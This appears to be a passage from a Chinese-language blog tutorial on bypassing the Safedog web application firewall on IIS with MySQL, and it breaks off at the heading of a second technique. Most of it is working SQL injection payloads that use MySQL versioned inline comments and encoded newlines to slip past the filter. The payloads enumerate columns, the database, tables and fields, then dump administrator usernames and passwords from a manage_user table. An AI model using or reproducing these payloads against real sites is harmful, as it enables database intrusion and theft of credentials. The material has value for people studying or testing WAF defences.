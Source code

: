 
![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

**2.实例：六条语句bypass安全狗**

环境：安全狗4.0 IIS版本+mysql 5.4+IIS 7.5

**第一种：特殊数字+内敛注释**

```
`#在1-55000之间找特殊数字，这个数字表示数据库版本。数据库是4.45.09以上版本该语句才会被执行``id=-1%20union%20/*!44509select*/%201,2,3%23``id=-1%20union%20/*!44509select*/%201,%23x%0A/*!database*/(),3%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

ps：我发现在这个区间只要带44的数字都不拦截，不知道这是不是一枚彩蛋。

```
`#找数字列``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,2,3,4,5,6,7,8,9,10``#数据库名``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,database%23%0a(),3,4,5,6,7,8,9,10`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#表名``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,group_concat(table_name),3,4,5,6,7,8,9,10 from information_schema.tables where table_schema=0x7879636d73`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段名``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,group_concat(column_name),3,4,5,6,7,8,9,10 from information_schema.columns where table_name=0x6d616e6167655f75736572`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段内容``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,group_concat(m_name,m_pwd),3,4,5,6,7,8,9,10 from manage_user`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

### **第二种union/_%00_/%23a%0A/_!/_!select 1,2,3*/;%23**
